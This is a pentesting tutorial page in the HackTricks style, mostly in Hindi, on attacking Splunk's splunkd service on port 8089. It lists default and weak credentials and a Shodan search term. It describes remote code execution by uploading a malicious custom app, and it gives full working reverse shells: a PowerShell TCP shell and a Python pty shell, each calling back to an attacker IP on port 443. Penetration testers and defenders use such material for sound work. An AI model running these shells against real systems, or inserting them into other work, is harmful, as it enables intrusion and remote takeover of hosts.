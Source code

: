 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **बुनियादी जानकारी**

* डेटा संग्रह, विश्लेषण और दृश्यता के लिए लॉग एनालिटिक्स उपकरण
* सुरक्षा निगरानी और व्यावसायिक विश्लेषण में सामान्यतः उपयोग किया जाता है
* डिफ़ॉल्ट पोर्ट:
* वेब सर्वर: 8000
* Splunkd सेवा: 8089

### कमजोरियों के वेक्टर:

1. मुफ्त संस्करण का शोषण

* परीक्षण संस्करण 60 दिनों के बाद स्वचालित रूप से मुफ्त संस्करण में परिवर्तित हो जाता है
* मुफ्त संस्करण में प्रमाणीकरण की कमी है
* प्रबंधित न करने पर संभावित सुरक्षा जोखिम
* प्रशासक सुरक्षा निहितार्थों को नजरअंदाज कर सकते हैं

2. क्रेडेंशियल कमजोरियाँ

* पुराने संस्करण: डिफ़ॉल्ट क्रेडेंशियल `admin:changeme`
* नए संस्करण: स्थापना के दौरान सेट किए गए क्रेडेंशियल
* कमजोर पासवर्ड के उपयोग की संभावना (जैसे, `admin`, `Welcome`, `Password123`)

3. रिमोट कोड निष्पादन के अवसर

* कोड निष्पादन के कई तरीके:
* सर्वर-साइड Django अनुप्रयोग
* REST एंडपॉइंट
* स्क्रिप्टेड इनपुट
* अलर्टिंग स्क्रिप्ट
* क्रॉस-प्लेटफ़ॉर्म समर्थन (Windows/Linux)
* स्क्रिप्टेड इनपुट चला सकते हैं:
* बैश स्क्रिप्ट
* पावरशेल स्क्रिप्ट
* बैच स्क्रिप्ट

मुख्य शोषण क्षमता:

* संवेदनशील डेटा भंडारण
* मुफ्त संस्करण में प्रमाणीकरण की कमी
* संभावित रिमोट कोड निष्पादन के लिए कई वेक्टर
* सिस्टम समझौते के लिए स्क्रिप्टेड इनपुट का लाभ उठाने की संभावना

### Shodan

* `Splunk build`

## RCE

### कस्टम एप्लिकेशन बनाएं

Splunk कस्टम एप्लिकेशन तैनाती के माध्यम से रिमोट कोड निष्पादन के लिए एक परिष्कृत विधि प्रदान करता है, जो इसके क्रॉस-प्लेटफ़ॉर्म स्क्रिप्टिंग क्षमताओं का लाभ उठाता है। मुख्य शोषण तकनीक एक दुर्भावनापूर्ण एप्लिकेशन बनाने के चारों ओर घूमती है जो Windows और Linux दोनों सिस्टम पर रिवर्स शेल्स को निष्पादित कर सकती है।

एक कस्टम एप्लिकेशन **Python, Batch, Bash, या PowerShell स्क्रिप्ट** चला सकता है। इसके अलावा, **Splunk में Python स्थापित है**, इसलिए **Windows** सिस्टम में भी आप पायथन कोड चला सकेंगे।

आप [**इस**](https://github.com/0xjpuff/reverse_shell_splunk) उदाहरण का उपयोग कर सकते हैं जिसमें **`bin`** में [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) और [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) के लिए उदाहरण शामिल हैं। या आप अपना खुद का बना सकते हैं।

शोषण प्रक्रिया प्लेटफार्मों के बीच एक सुसंगत पद्धति का पालन करती है:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
The critical configuration file `inputs.conf` enables the script by:

* Setting `disabled = 0`
* Configuring a 10-second execution interval
* Defining the script's source type

Deployment is straightforward:

1. Create the malicious application package
2. Set up a listener (Netcat/socat) on the attacking machine
3. Upload the application through Splunk's interface
4. Trigger automatic script execution upon upload

Sample Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
नमूना Linux Python रिवर्स शेल:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

इस पृष्ठ पर आप यह समझ सकते हैं कि इस सेवा का दुरुपयोग कैसे किया जा सकता है ताकि विशेषाधिकार बढ़ाए जा सकें और स्थिरता प्राप्त की जा सके:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
